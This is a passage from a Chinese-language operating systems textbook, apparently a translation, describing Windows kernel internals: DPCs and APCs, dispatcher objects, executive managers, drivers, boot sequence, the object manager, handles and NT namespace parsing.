Windows操作系统的内核层（如图11-13所示，执行体之上）提供了一套管理CPU的抽象。最核心的抽象是线程，但是内核也实现了异常处理、陷阱以及各种中断。支持线程的数据结构的创建和终止是在执行体实现的。核心层负责调度和同步线程。在一个单独的层内支持线程，允许执行体在用户态下，可以通过使用用来编写并行代码且相同优先级的多线程模型来执行，但同步原语的执行更专业。
内核线程调度程序负责决定哪些线程执行在系统的每一个CPU上。线程会一直执行，直到产生了一个定时器中断，或者是当线程需要等待一些情况，比如等待一个I/O读写完成或是一个锁定被释放，或者是更高优先级的线程等待运行而需要CPU，这时正在执行的线程会切换到另一个线程（量子过期）。当一个线程向另一个线程转换时，调度程序会在CPU上运行，并确保寄存器及其他硬件状态已保存。然后，调度程序会选择另一个线程在CPU上运行，并且恢复之前所保存的最后一个线程的运行状态。
如果下一个运行的线程是在一个不同的地址空间（例如进程），调度程序也必须改变地址空间。详细的调度算法我们将在本章内谈到进程和线程时讨论。
除了提供更高级别的硬件抽象和线程转换机制，核心层还有另外一项关键功能：提供对下面两种同步机制低级别的支持：control对象和dispatcher对象。Control对象，是核心层向执行体提供抽象的CPU管理的一种数据结构。它们由执行体来分配，但由核心层提供的例程来操作。Dispatcher对象是一种普通执行对象，使用一种公用的数据结构来同步。
3.延迟过程调用
Control对象包括线程、中断、定时器、同步、调试等一些原语对象，和两个用来实现DPC和APC的特殊对象。DPC（延迟过程调用）对象是用来减少执行ISR（中断服务例程）所需要的时间，以响应从特定的设备来的中断。
系统硬件为中断指定了硬件优先级。在CPU进行工作时也伴随着一个优先级。CPU只响应比当前更高优先级的中断。通常的优先级是0，包括所有用户态下的优先级。设备中断发生在优先级3或更高，让一个设备中断的ISR以同一优先级的中断来执行是防止其他不重要的中断影响它正在进行的重要中断。
如果ISR执行得太长，提供给低优先级中断的服务将被推迟，可能造成数据丢失或减缓系统的I/O吞吐量。多ISR可以在任何同一时刻处理，每一个后续的ISR是由于产生了更高优先级的中断。
为了减少处理ISR所花费的时间，只有关键的操作才执行，如I/O操作结果的捕捉和设备重置。直到CPU的优先级降低，且没有其他中断服务阻塞，才会进行下一步的中断处理。DPC对象用来表示将要做的工作，ISR调用核心层排列DPC到特定处理器上的DPC队列。如果DPC在队列的第一个位置，内核会登记一个特殊的硬件请求让CPU在优先级2产生中断（NT下称为DISPATCH级别）。当最后一个执行的ISR完成后，处理器的中断级别将回落到低于2，这将解开DPC处理中断。服务于DPC中断的ISR将会处理内核排列好的每一个DPC对象。
利用软中断延迟中断处理是一种行之有效的减少ISR延迟时间的方法。UNIX和其他系统在20世纪70年代开始使用延迟处理，以处理缓慢的硬件和有限的缓冲串行连接终端。ISR负责处理从硬件提取字符并排列它们。在所有高级别的中断处理完成以后，软中断将执行一个低优先级的ISR做字符处理，比如通过向终端发送控制字符来执行一个退格键，以抹去最后一个显示字符并向后移动光标。
在当前的Windows操作系统下，类似的例子是键盘设备。当一个键被敲击以后，键盘ISR从寄存器中读取键值，然后重新使键盘中断，但并不对下一步的按键进行及时处理。相反，它使用一个DPC去排队处理键值，直到所有优先的设备中断已处理完成。
因为DPC在级别2上运行，它们并不干涉ISR设备的执行，在所有排队中的DPC执行完成并且CPU的优先级低于2之前，它们会阻止任何线程的运行。设备驱动和系统本身必须注意不要运行ISR或DPC太长时间。因为在运行它们的时候不能运行线程，ISR或DPC的运行会使系统出现延迟，并且可能在播放音乐时产生不连续，因为拖延了线程对声卡的音乐缓冲区的写操作。DPC另一个通常的用处是运行程序以响应定时器中断。为了避免线程阻塞，要延长运行时间的定时器事件需要向内核维持后台活动的线程工作池做排队请求。这些线程有调度优先级12、13或15。我们会在线程调度部分看到，这些优先级意味着工作项目将会先于大多数线程执行，但是不会打断实时线程。
4.异步过程调用
另一个特殊的内核控制对象是APC（异步过程调用）对象。APC与DPC的相同之处是它们都是延迟处理系统例行程序，不同之处在于DPC是在特定的CPU上下文中执行，而APC是在一个特定的线程上下文中执行。当处理一个键盘敲击操作时，DPC在哪一个上下文中运行是没有关系的，因为一个DPC仅仅是处理中断的另一部分，中断只需要管理物理设备和执行独立线程操作，例如在内核空间的一个缓冲区记录数据。
当原始中断发生时，DPC例程运行在任何线程的上下文中。它利用I/O系统来报告I/O操作已经完成，I/O系统排列一个APC在线程的上下文中运行从而做出原始的I/O请求，在这里它可以访问处理输入的线程的用户态地址空间。
在下一个合适的时间，内核层会将APC移交给线程而且调度线程运行。一个APC被设计成看上去像一个非预期的程序调用，有些类似于UNIX中的信号处理程序。不过在内核态下，内核态的APC为了完成I/O操作，而在完成初始化I/O操作的线程的上下文中执行。这使APC既可以访问内核态的缓冲区，又可以访问用户态下，属于包含线程的进程的地址空间。一个APC在什么时候被移交，取决于线程已经在做什么，以及系统的类型是什么。在一个多处理器系统中，甚至是在DPC完成运行之前，接收APC的线程才可以开始执行。
用户态下的APC也可以用来把用户态的I/O操作已经完成的信息，通知给初始化I/O操作的线程。但只有当内核中的目标线程被阻塞和被标示为准备接收APC时，用户态下的APC才可调用用户态下的应用程序。但随着用户态堆栈和寄存器的修改，为了执行在ntdll.dll系统库中的APC调度算法，内核将等待中的线程中断，并返回到用户态。APC调度算法调用和I/O操作相关的用户态应用程序。除了一些I/O完成后，作为一种执行代码方法的用户态下的APC外，Win32 API中的QueueUserAPC允许将APC用于任意目的。
执行体也使用除了I/O完成之外的一些APC操作。由于APC机制精心设计为只有当它是安全的时候才提供APC，它可以用来安全地终止线程。如果这不是一个终止线程的好时机，该线程将宣布它已进入一个临界区，并延期交付APC直至得到许可。在获得锁或其他资源之前，内核线程会标记自己已进入临界区并延迟APC，这时，它们不能被终止，并仍然持有资源。
5.调度对象
另一种同步对象是调度对象。这是常用的内核态对象（一种用户可以通过句柄处理的类型），它包含一个称为dispatcher_header的数据结构，如图11-15所示。
它们包括信号器、互斥体、事件、可等待定时器和其他一些可以等待其他线程同步执行的对象。它们还包括表示打开的文件的对象、进程、线程和IPC端口。调度数据结构包含了表示对象状态的标志，和等待被标记的对象的线程队列。
同步原语，如信号器，是标准的调度对象。另外定时器、文件、端口线程和进程使用调度对象机制去通知。当一个定时器开启、一个文件I/O完成、一个端口正在传输数据或是一个线程或进程终止时，相关的调度对象会被通知，并唤醒所有等待该事件的线程。
由于Windows使用了一个单一的标准机制去同步内核态对象，一些专门的API就无需再等待事件，例如在UNIX中用来等待子进程的wait3。而通常情况下，线程要一次等待多个事件。在UNIX中，通过“select”系统调用，一个进程可以等待任何一个64位网络接口可以获得的数据。在Windows中亦有一个类似的APIWaitForMultipleObjects，但是它允许一个线程等待任何类型的有句柄的调度对象。超过64个句柄可以指定WaitForMultipleObjects，以及一个可选择的超时值。线程随时准备运行任何一个和句柄标记相关的事件或发生超时。
内核使用两个不同的程序使得线程等待调度对象运行。发出一个通知对象信号使每一个等待的线程可以运行。同步对象仅使第一个等待的线程可以运行，用于调度对象，实施锁元，如互斥体。当一个线程等待一个锁再次开始运行，它做的第一件事就是再次尝试请求锁。如果一次仅有一个线程可以保留锁，其他所有可运行的线程可能立刻被阻塞，从而产生许多不必要的现场交换。使用同步机制和使用通知机制的分派对象（dispatcher object）之间的差别是dispatcher_header结构中的一个标记。
另外，在Windows代码中互斥体称为“变体”（mutant）。因为当一个线程保留一个出口时，它们需要执行OS/2语义中的非自动解锁，看来这是Cutler奇特的考虑。
6.执行体
如图11-13所示，在NTOS的内核层以下是执行体。执行体是用C语言编写的，在结构上最为独立（内存管理是一个明显的例外），并且经过少量的修改已经移植到新的处理器上（MIPS、x86、PowerPC、Alpha、IA64和x64）。执行体包括许多不同的组件，所有的组件都通过内核层提供的抽象控制器来运行。
每个组件分为内部和外部的数据结构和接口。每个组件的内部方法是隐藏的，只有组件自己可以调用，而外部方法可以由执行体的所有其他组件调用。外部接口的一个子集由一个ntoskrnl.exe提供，而且设备驱动可以链接到它们就好像执行体是一个库。微软称许多执行体组件为“管理器”，因为每一个组件管理操作系统的一部分，例如I/O、内存、进程、对象等。
对于大多数操作系统而言，许多功能在Windows上执行就像库的编码。除非在内核方式下运行，它的数据结构可以被共享和保护，以避免用户态下的编码访问，因此它具有硬件状态的访问权限，例如MMU控制寄存器。但是另一方面，执行体只是代表它的调用者简单执行操作系统的函数，因此它运行在它的调用者的线程中。
当任何执行控制操作阻塞等待与其他线程同步时，用户态线程也会阻塞。这在为一个特殊的用户态线程工作时是有意义的，但是在做一些相关的内务处理任务时是不公平的。当执行体认为一些内务处理线程是必须的时候，为了避免劫持当前的线程，一些内核态线程就会具体于特定的任务而产生，例如确保更改了的页会被回写到硬盘上。
对于可预见的低频率任务，会有一个线程一秒运行一次而且由一个长的项目单来处理。对于不可预见的工作，有一个之前曾经提到的高优先级的辅助线程池，通过将队列请求和发送辅助线程等待的同步事件信号，可以用来运行有界任务。
对象管理器管理在执行体使用的大部分内核态对象，包括进程、线程、文件、信号、I/O设备及驱动、定时器等。就像之前提到的，内核态对象仅仅是内核分配和使用的数据结构。在Windows中，内核数据结构有许多共同特点，即它们在管理标准功能中特别有用。
这些功能由对象管理器提供，包括管理对象的内存分配和释放，配额计算，支持通过句柄访问对象，为内核态指针引用保留引用计数，在NT名字空间给对象命名，为管理每一个对象的生命周期提供可扩展的机制。需要这些功能的内核数据结构是由对象管理器来管理的。其他数据结构，例如内核层使用的控制对象，或仅仅是内核态对象的扩展对象，不由对象管理器管理。
对象管理器的每一个对象都有一个类型用来指定这种类型的对象的生命周期怎样被管理。这些不是面向对象意义中的类型，而仅仅是当对象类型产生时的一个指定参数集合。为了产生一个新的类型，一个操作元件只需要调用一个对象管理器API即可。对象在Windows的函数中很重要，在下面的章节中将会讨论有关对象管理器的更多细节。
I/O管理器为实现I/O设备驱动提供了一个框架，同时还为设备上的配置、访问和完成操作提供一些特定的运行服务。在Windows中，设备驱动器不仅仅管理硬件设备，它们还为操作系统提供可扩展性。在其他类型的操作系统中被编译进内核的功能是被Windows内核动态装载和链接的，包括网络协议栈和文件系统。
最新的Windows版本对在用户态上运行设备驱动程序有更多的支持，这对新的设备驱动程序是首选的模式。Windows Vista有超过100万不同的设备驱动程序，工作着超过了100万不同的设备。这就意味着要获取正确的代码。漏洞导致设备在用户态的进程中崩溃而不能使用，这比造成对系统进行检测错误要好得多。错误的内核态设备驱动是导致Windows可怕的BSOD（蓝屏死机）的主要来源，它是Windows侦测到致命的内核态错误并关机或重新启动系统。蓝屏死机可以类比于UNIX系统中的内核恐慌。
在本质上，微软现在已经正式承认那些在microkernels研究领域的如MINIX 3和L4的研究员多年来都知道的结果：在内核中有更多的代码，那么内核中就有更多缺陷。由于设备驱动程序占了70%的内核代码，更多的驱动程序可以进入用户态进程，其中一个bug只会触发一个单一驱动器的失败（而不是降低整个系统）。从内核到用户态进程的代码移动趋势将在未来几年加速发展。
I/O管理器还包括即插即用和电源管理设施。当新设备在系统中被检测到，即插即用就开始工作。该即插即用设备的子模块首先被通知。它与服务一起工作，即用户态即插即用管理器，找到适当的设备驱动程序并加载到系统中。找到合适的设备驱动程序并不总是很容易，有时取决于先进的匹配具体软件设备特定版本的驱动程序。有时一个单一的设备支持一个由不同公司开发的多个驱动程序所支持的标准接口。
电源管理能降低能源消耗，延长笔记本电脑电池寿命，保存台式电脑和服务器能量。正确使用电源管理是具有挑战性的，因为在把设备和buses连接到CPU和内存时有许多微妙的依赖性。电力消耗不只是由设备供电时的影响，而且还由CPU的时钟频率影响，这也是电源管理在控制。
我们会在11.7节对I/O进一步研究和以及在11.8节中介绍最重要的NT文件系统NTFS。
进程管理管理着进程和线程的创建和终止，包括建立规则和参数指导它们。但是线程运行方面由核心层决定，它控制着线程的调度和同步，以及它们之间相互控制的对象，如APC。进程包含线程、地址空间和一个可以用来处理进程指定内核态对象的句柄表。进程还包括调度器进行地址空间交换和管理进程中的具体硬件信息（如段描述符）所需要的信息。我们将在11.4节研究进程和线程的管理。
执行内存管理器实现了虚拟内存架构的需求分页。它负责管理虚拟页映射到物理页帧，管理现有的物理帧，和使用备份管理磁盘上页面文件，这些页面文件是用来备份那些不再需要加载到内存中的虚拟页的私有实例。该内存管理器还为大型服务器应用程序提供了特殊功能，如数据库和编程语言运行时的组件，如垃圾收集器。我们将在11.5节中研究内存管理。
内存管理器优化I/O的性能，文件系统内核虚拟地址空间保持一个内存的文件系统页。内存管理器使用虚拟的地址进行缓存，也就是说，按照它们文件所在位置来组织缓存页。这不同于物理块内存，例如在UNIX中，系统为原始磁盘卷保持一个物理地址块的内存。
内存的管理是使用内存映射文件来实现的。实际的缓存是由内存管理器完成。内存管理器需要关心的只是文件的哪些部分需要内存，以确保缓存的数据即时地刷新到磁盘中，并管理内核虚拟地址映射缓存文件页。如果一个页所需的I/O文件在缓存中没有，该页在使用内存管理器时将会发生错误。我们会在11.6节中学习内存管理器。
安全引用监视器（security reference monitor）执行Windows详细的安全机制，以支持计算机安全要求的国际标准的通用标准（Common Critieria），一个由美国国防部的橘皮书的安全要求发展而来的标准。这些标准规定了一个符合要求的系统必须满足的大量规则，如登录验证、审核、零分配的内存等更多的规则。一个规则要求，所有进入检查都由系统中的一个模块进行检查。在Windows中此模块就是内核中的安全监视器。我们将在11.9节中更详细地学习安全系统。
执行体中包括其他一些组件，我们将简要介绍。如前所述，配置管理实现注册表的执行组件。注册表中包含系统配置数据的文件的系统文件称为储巢（hive）。最关键的储巢是系统启动时加载到内存的系统储巢。只有在执行体成功地初始化其主要组件，包括了系统磁盘的I/O驱动程序，之后才是文件系统中储巢关联的内存中的储巢副本。因此，如果试图启动系统时发生不测，磁盘上的副本是不太可能被损坏的。
LPC的组成部分提供了运行在同一系统的进程之间的高效内部通信。这是一个基于标准的远程过程调用（RPC）功能，实现客户机/服务器的处理方式的数据传输。RPC还使用命名管道和TCP/IP作为传输通道。
在Windows Vista（现在称为ALPC、高级LPC）中LPC大大加强了对RPC新功能的支持，包括来自内核态组件的RPC，如驱动。LPC是NT原始设计中的一个重要的组成部分，因为它被子系统层使用，实现运行在每个进程和子系统进程上库存例程的通信，这实现了一个特定操作系统的个性化功能，如Win32或POSIX。
Windows NT 4.0中的许多代码与Win32进入内核的图形界面相关，因为当时的硬件无法提供所需的性能。该代码以前位于csrss.exe子系统进程，执行Win32接口。以内核为基础的图形用户界面的代码位于一个专门的内核驱动win32k.sys中。这一变化预计将提高Win32的性能，因为额外的用户态/内核态的转换和转换地址空间的成本经由LPC执行通信是被清除的。但并没能像预期的那样取得成功，因为运行在内核中的代码要求是非常严格的，运行在内核态上的额外消耗抵消了因减少交换成本获得的收益。
7.设备驱动程序
最后一部分图11-13是设备驱动程序的组成。在Windows中的设备驱动程序的动态链接库是由NTOS装载。虽然它们主要是用来执行特定硬件的驱动程序，如物理设备和I/O总线，设备驱动程序的机制也可作为内核态的一般可扩展性的机制。如上所述，大部分的Win32子系统是作为一个驱动程序被加载。
I/O管理器组织的数据按照一定的路线流经过每个设备实例，如图11-16。这个路线称为设备栈，由分配到这条路线上的内核设备对象的私有实例组成。设备堆栈中的每个设备对象与特定的驱动程序对象相关联，其中包含日常使用的I/O请求的数据包流经该设备堆栈的表。在某些情况下，堆栈中的设备驱动程序表示其唯一的目的是在某一特定的设备上过滤I/O操作目标、总线或网络驱动器。过滤器的使用是有一些原因的。有时预处理或后处理I/O操作可以得到更清晰的架构，而其他时候只是以实用为出发点，因为没有修改驱动的来源和权限，过滤器是用来解决这个问题的。过滤器还可以全面执行新的功能，如把磁盘分区或多个磁盘分成RAID卷。
文件系统作为驱动程序被加载。每个文件系统卷的实例，有一个设备对象创建，并作为该设备堆栈卷的一部分。这是设备对象将与驱动对象的文件系统适当的卷格式发生关联。特别过滤驱动程序，称为文件系统过滤驱动程序，可以在插入设备对象之前，文件系统设备对象将功能应用于被发送到每个卷的I/O请求，如数据读取或写入的病毒检查。
网络协议也作为使用I/O模型的驱动被装载起来，例如Windows Vista整合的IPv4/IPv6 TCP/IP实现。对于老的基于MS-DOS的Windows操作系统，TCP/IP驱动实现了一个特殊的Windows I/O模型网络接口上的协议。还有其他一些驱动也执行这样的安排，其中的Windows小型端口。共享功能是在一个类驱动程序中。例如，SCSI或IDE磁盘或USB设备通用功能是作为一类驱动提供的，这一类驱动为这些设备的每个特定类型提供微端口驱动程序连接为一个库。
我们在本章不讨论任何特定的设备驱动，但是在11.7节中将更为详细地介绍有关I/O管理器如何与设备驱动互动。
使用操作系统需要运行几个步骤。当电脑打开时，CPU初始化硬件。然后开始执行内存中的一个程序。但是，唯一可用的代码是由计算机制造商初始化的某些非易失性的CMOS内存形式（有时被用户更新，在一个进程中称为闪存）。在大多数PC机中，最初的初始化程序是BIOS（基本输入/输出系统），它知道如何在一台PC机上找到设备的标准类型。BIOS提供了Windows Vista在磁盘驱动器分区开始时首先装载的小引导程序。
引导程序知道如何在根目录的文件系统卷之外阅读足够的信息去发现独立的Windows BootMgr程序。BootMgr确定系统是否已经处于休眠或待机模式（特别省电模式，系统不需要重启就可以重新打开）。如果是，BootMgr加载和执行WinResume.exe。否则加载和执行WinLoad.exe执行新的启动。WinLoad加载系统启动组件到内存中：内核/执行体(通常是Ntoskrnl.exe)、HAL(hal.dll)，该文件包含系统储巢，Win32k.sys驱动包含Win32子系统的内核态部分，以及任何其他在系统储巢中作为启动驱动程序列出的驱动程序的镜像，这就意味着在系统启动时，它们是必需的。
一旦Windows启动组件加载到内存中，控制就转移给NTOS中的低级代码，来完成初始化HAL、内核和执行体、链接驱动像、访问/更新系统配置中的数据等操作。所有内核态的组件初始化后，第一个用户态进程被创建，使用运行着的smss.exe程序（如同UNIX系统中的/etc/init）。
Windows启动程序在遇到系统启动失败时，有专门处理常用问题的逻辑。有时安装一个坏的设备驱动程序，或运行一个像注册表一样的程序（能导致系统储巢损坏），会阻止系统正常启动。系统提供了一种功能来支持忽略最近的变化并启动到最近一次的系统正确配置。其他启动选项包括安全启动，它关闭了许多可选的驱动程序。还有故障恢复控制台，启动cmd.exe命令行窗口，它提供了一个类似UNIX的单用户态。
另一个常见的问题，用户认为，一些Windows系统偶尔看起来很不可思议，经常有系统和应用程序的（看似随机）崩溃。从微软的在线崩溃分析程序得到的数据，提供了许多崩溃是由于物理内存损坏导致的证据。所以Windows Vista启动进程提供了一个运行广义上的内存诊断的选项。也许未来的PC硬件将普遍支持ECC（或者部分）内存，但是今天的大多数台式机和笔记本电脑系统很容易受到攻击，即便是在它们所包含的数十亿比特的内存中的单比特错误。
对象管理器也许是Windows可执行过程中一个最重要的组件，这也是为什么我们已经介绍了它的许多概念。如前所述，它提供了一个统一的和一致的接口，用于管理系统资源和数据结构，如打开文件、进程、线程、内存部分、定时器、设备、驱动程序和信号。更为特殊的对象可以表示一些事物，像内核的事务、外形、安全令牌和由对象管理器管理的Win32桌面。设备对象和I/O系统的描述联系在一起，包括提供NT名字空间和文件系统卷之间的链接。配置管理器使用一个Key类型的对象与注册配置相链接。对象管理器自身有一些对象，它用于管理NT名字空间和使用公共功能来实现对象。在这些目录中，有象征性的联系和对象类型的对象。
由对象管理器提供的统一性有不同的方面。所有这些对象使用相同的机制，包括它们是如何创建、销毁以及定额分配值的占有。它们都可以被用户态进程通过使用句柄访问。在内核的对象上有一个统一的协议管理指针的引用。对象可以从NT的名字空间(由对象管理器管理)中得到名字。调度对象（那些以信号事件相关的共同数据结构开始的对象）可以使用共同的同步和通知接口，如WaitForMultipleObjects。有一个共同的安全系统，其执行了以名称来访问的对象的ACL，并检查每个使用的句柄。甚至有工具帮助内核态开发者，在使用对象的过程中追踪调试问题。
理解对象的关键，是要意识到一个（执行）对象仅仅是内核态下在虚拟内存中可以访问的一个数据结构。这些数据结构，常用来代表更抽象的概念。例如，执行文件对象会为那些已打开的系统文件的每一个实例而创建。进程对象被创建来代表每一个进程。
一种事实上的结果是，对象只是内核数据结构，当系统重新启动时（或崩溃时）所有的对象都将丢失。当系统启动时，没有对象存在，甚至没有对象类型描述。所有对象类型和对象自身，由对象管理器提供接口的执行体的其他组件动态创建。当对象被创建并指定一个名字，它们可以在以后通过NT名字空间被引用。因此，建立对象的系统根目录还建立了NT名字空间。
对象结构，如图11-17所示。每个对象包含一个对所有类型的所有对象的某些共性信息头。在这个头的领域内包括在名字空间内的对象的名称，对象目录，并指向安全描述符代表的ACL对象。
对象的内存分配来自由执行体保持的两个堆（或池）的内存之一。在有（像内存分配）效用函数的执行体中，允许内核态组件不仅分配分页内核内存，也分配无分页内核内存。对于那些需要被具有CPU 2级以及更高优先级的对象访问的任何数据结构和内核态是对象，无分页内存都是需要的。这包括ISR和DPC（但不包括APC）和线程调度本身。该pagefault处理也需要由无分页内核内存分配的数据结构，以避免递归。
大部分来自内核堆管理器的分配，是通过使用每个处理器后备名单来获得的，这个后备名单中包含分配大小一致的LIFO列表。这些LIFO优化不涉及锁的运作，可提高系统的性能和可扩展性。
每个对象标头包含一个配额字段，这是用于对进程访问一个对象的配额征收。配额是用来保持用户使用较多的系统资源。对无分页核心内存（这需要分配物理内存和内核虚拟地址）和分页的核心内存（使用了内核虚拟地址）有不同的限制。当内存类型的累积费用达到了配额限制，由于资源不足而导致给该进程的分配失败。内存管理器也正在使用配额来控制工作集的大小和线程管理器，以限制CPU的使用率。
物理内存和内核虚拟地址都是宝贵的资源。当一个对象不再需要，应该取消并回收它的内存和地址。但是，如果一个仍在被使用的对象收到新的请求，则内存可以被分配给另一个对象，然而数据结构有可能被损坏。在Windows执行体中可以很容易发生这样的问题，因为它是高度多线程的，并实施了许多异步操作（例如，在完成特定数据结构之上的操作之前，就返回这些数据结构传递给函数的调用者）。
为了避免由于竞争条件而过早地释放对象，对象管理器实现了一个引用计数机制，以及引用指针的概念。需要一个参考指针来访问一个对象，即便是在该物体有可能正要被删除时。根据每一个特定对象类型有关的协议里面，只有在某些时候一个对象才可以被另一个线程删除。在其他时间使用的锁，数据结构之间的依赖关系，甚至是没有其他线程有一个对象的指针，这些都能够充分保护一个对象，使其避免被过早删除。
1.句柄
用户态提到内核态对象不能使用指针，因为它们很难验证。相反内核态对象必须使用一些其他方式命名，使用户代码可以引用它们。Windows使用句柄来引用内核态对象。句柄是不透明值（opaque value），该不透明值是被对象管理器转换到具体的应用，以表示一个对象的内核态数据结构。图11-18表示了用来把句柄转换成对象的指针的句柄表的数据结构。句柄表增加额外的间接层来扩展。每个进程都有自己的表，包括该系统的进程，其中包含那些只含有内核线程与用户态进程不相关的进程。
图11-19显示，句柄表最大支持两个额外的间接层。这使得在内核态中执行代码能够方便地使用句柄，而不是引用指针。内核句柄都是经过特殊编码的，从而它们能够与用户态的句柄区分开。内核句柄都保存在系统进程的句柄表里，而且不能以用户态存取。就像大部分内核虚拟地址空间被所有进程共享，系统句柄表由所有的内核成分共享，无论当前的用户态进程是什么。
用户可以通过Win32调用的CreateSemaphore或OpenSemaphore来创建新的对象或打开一个已经存在的对象。这些都是对程序库的调用，并且最后会转向适当的系统调用。任何成功创建或打开对象的指令的结果，都是储存在内核内存的进程私有句柄表的一个64位句柄表入口。表中句柄逻辑位置的32位索引返回给用户用于随后的指令。内核的64位句柄表入口包含两个32位字节。一个字节包含29位指针指向包头。其后的3位作为标志（例如，表示句柄是否被它创建的进程继承）。这3位在指针就位以前是被屏蔽掉的。其他的字节包含一个32位正确掩码。这是必需的因为只有在对象创建或打开的时候许可校验才会进行。如果一个进程对某对象只有只读的权限，那在表示其他在掩码中的权限位都为0，从而让操作系统可以拒绝除读之外对对象进行任何其他的操作。
2.对象名字空间
进程可以通过由一个进程把到对象的句柄复制给其他进程来共享对象。但是这需要复制的进程有到其他进程的句柄，而这样在多数情况中并不适用，例如进程共享的对象是无关的或被其他进程保护的。在其他情况下，对象即使在不被任何进程调用的时候仍然保持存在是非常重要的，例如表示物理设备的对象，或用户实现对象管理器和它自己的NT名字空间的对象。为了地址的全面分享和持久化需求，对象管理允许随意的对象在被创建的时候就给定其NT名字空间中的名字。然而，是由执行部件控制特定类型的对象来提供接口，以使用对象管理器的命名功能。
NT名字空间是分级的，借由对象管理器实现目录和特征连接。名字空间也是可扩展的，通过提供一个叫做Parse的进程程序允许任何对象类型指定名字空间扩展。Parse程序是一个可以提供给每一个对象类型的对象创建时使用的程序，如图11-20所示。
Open语句很少使用，因为默认对象管理器的行为才是必需的，所以程序为所有基本对象类型指定为NULL。
Close和Delete语句描述对象完成的不同阶段。当对象的最后一个句柄关闭，可能会有必要的动作清空状态，这些由Close语句来执行，当最后的指针参考从对象移除，使用Delete语句，从而对象可以准备被删除并使其内存可以重用。利用文件对象，这两个语句都实现为I/O管理器里面的回调，I/O管理器是声明了对象类型的组件。对象管理操作使得由设备堆栈发送的I/O操作能够与文件对象关联上，而大多数这些工作由文件系统完成。
Parse语句用来打开或创建对象，如文件和登录密码，以及扩展NT名字空间。当对象管理器试图通过名称打开一个对象并遭遇其管理的名字空间树的叶结点，它检查该叶结点对象类型是否指定了一个Parse语句。如果有，它会引用该语句，将路径名中未用的部分传给它。再以文件对象为例，叶子结点是一个表现特定文件系统卷的设备对象。Parse语句由I/O管理器执行，并发起在对文件系统的I/O操作，以填充一个指向文件的公开实例到该文件对象，这个文件是由路径名指定的。我们将在以后逐步探索这个特殊的实例。
QueryName语句是用来查找与对象关联的名字。Security语句用于得到、设置或删除该安全描述符的对象。对于大多数类型的对象，此程序在执行的安全引用监视器组件里提供一个标准的切入点。
注意，在图11-20里的语句并不执行每种对象类型最感兴趣的操作。相反，这些程序提供给对象管理器正确实现功能所需要的回调函数，如提供对对象的访问和对象完成时的清理工作。除了这些回调，对象管理器还提供了一套通用对象例程，例如创建对象和对象类型，复制句柄，从句柄或者名字获得引用指针，并增加和减去对象头部的参考计数。
对象感兴趣的操作都是在本地NT API系统调用，如NtCresteProcess、NtCreateFile或NtClose（关闭句柄所有类型的通用操作），如图11-9所示。
虽然对象名字空间对整个运作的系统是至关重要的，但却很少有人知道它的存在，因为没有特殊的浏览工具的话它对用户是不可见的。winobj就是一个这样的浏览工具，在www.microsoft.com/technet/sysinternals可免费获得。在运行时，此工具描绘的对象的名字空间通常包含对象目录，如图11-21列出来的及其他一些。
一个被奇怪地命名为\??的目录包含用户的所有MS-DOS类型的设备名称，如A：表示软驱，C：表示第一块硬盘。这些名称其实是在设备对象活跃的地方链接到目录\装置的符号。使用名称\??是因为其按字母顺序排列第一，以加快查询从驱动器盘符开始的所有路径名称。其他的对象目录的内容应该是自解释的。
如上所述，对象管理器保持一个单独的句柄为每个对象计数。这个计数是从来不会大于指针引用计数，因为每个有效的句柄对象在它的句柄表入口有一个引用指针。使用单独句柄计数的理由是，当最后一个用户态的引用消失的时候，许多类型的对象可能需要清理自己的状态，尽管它们尚未准备好让它们的内存删除。
以一个文件对象为例表示一个打开文件的实例。Windows系统中文件被打开以供独占访问。当文件对象的最后一个句柄被关闭，重要的是在那一刻就应该删除专有访问，而不是等待任何内核引用最终消失（例如，在最后一次从内存冲洗数据之后。）否则，从用户态关闭并重新打开一个文件可能无法按预期的方式工作，因为该文件看来仍然在使用中。
虽然对象管理器在内核具有全面的管理机制来管理内核中的对象生命周期，不论是NT API或Win32API的都没有提供一个引用机制来处理在用户态的并行多线程之间的句柄使用。从而多线程并发访问句柄会带来竞争条件（race condition）和bug，例如，可能发生一个线程在别的线程使用完特定的句柄之前就把它关闭了。或者多次关闭一个句柄。或者关闭另一个线程仍然在使用的句柄，然后重新打开它指向不同的对象。
也许Windows的API应该被设计为每个类型对象带有一个关闭API，而不是单一的通用NTClose操作。这将至少会减少由于用户态线程关闭了错误的处理而发生错误的频率。另一个解决办法可能是在句柄表中的指针之外再添加一个序列域。
为了帮助程序开发人员在他们的程序中寻找这些类似的问题，Windows有一个应用程序验证，软件开发商能够从Microsoft下载。我们将在11.7节介绍类似的驱动程序的验证器，应用程序验证器通过大量的规则检查来帮助程序员寻找可能通过普通测试无法发现的错误。它也可以为句柄释放列表启用先进先出顺序，以便句柄不会被立即重用（即关闭句柄表通常采用效果较好的LIFO排序）。防止句柄被立即重用的情况发生，在这些转化的情况下操作可能错误地使用一个已经关闭的句柄，这是很容易检测到的。
该设备对象是执行体中一个最重要的和贯穿内核态的对象。该类型是由I/O管理器指定的，I/O管理器和设备驱动是设备对象的主要使用者。设备对象和驱动程序是密切相关的，每个设备对象通常有一个链接指向一个特定的驱动程序对象，它描述了如何访问设备驱动程序所对应的I/O处理例程。
设备对象代表硬件设备、接口和总线，以及逻辑磁盘分区、磁盘卷甚至文件系统、扩展内核，例如防病毒过滤器。许多设备驱动程序都有给定的名称，这样就可以访问它们，而无需打开设备的实例的句柄，如在UNIX中。我们将利用设备对象以说明Parse程序是如何被使用的，如图11-22所示。
1)当一个执行组件，如实现了本地系统调用NTCreateFile的I/O管理器，在对象管理器中称之为ObOpenObjectByName，它发送一个NT名字空间的Unicode路径名，例如\??\C:\foo\bar。
2)对象管理器通过目录和符号链接表搜索并最终认定\??\C:指的是设备对象（I/O管理器定义的一个类型）。该设备对象在由对象管理器管理的NT名字空间中一个叶节点。
3)然后对象管理器为该对象类型调用Parse程序，这恰好是由I/O管理器实现的lopParseDevice。它不仅传递一个指针给它发现的设备对象（C：），而且还把剩下的字符串\foo\bar也发送过去。
4)I/O管理器将创建一个IRP（I/O请求包），分配一个文件对象，发送请求到由对象管理器确定的设备对象发现的I/O设备堆栈。
5)IRP是在I/O堆栈中逐级传递，直到它到达一个代表文件系统C：实例的设备对象。在每一个阶段，控制是通过一个与这一等级设备对象相连的切入点传递到驱动对象内部。切入点用在这种情况下，是为了支持CREATE操作，因为要求是创建或打开一个名为\foo\bar的文件。
6)该设备对象中遇到指向文件系统的IRP可以表示为文件系统筛选驱动程序，这可能在该操作到达对应的文件系统设备对象之前修改I/O操作。通常情况下这些中间设备代表系统扩展，例如反病毒过滤器。
